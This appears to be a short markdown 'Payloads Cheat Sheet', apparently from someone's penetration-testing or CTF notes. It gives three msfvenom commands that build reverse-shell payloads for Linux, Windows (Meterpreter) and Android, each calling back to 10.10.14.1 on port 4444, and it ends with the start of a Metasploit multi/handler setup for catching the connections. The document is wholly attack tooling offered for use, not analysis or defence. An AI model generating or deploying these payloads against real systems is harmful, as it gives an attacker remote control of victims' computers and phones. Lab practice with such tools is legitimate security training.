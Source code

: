 # 💣 Payloads Cheat Sheet

## 🧪 Bash Reverse Shell (msfvenom)
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f elf > shell.elf
```
## 🪟 Windows Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe > shell.exe
```
##  📲 Android Payload

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.14.1 LPORT=4444 -o shell.apk
```

Use with [[Metasploit]]:
```bash
use exploit/multi/handler
set payload ...
```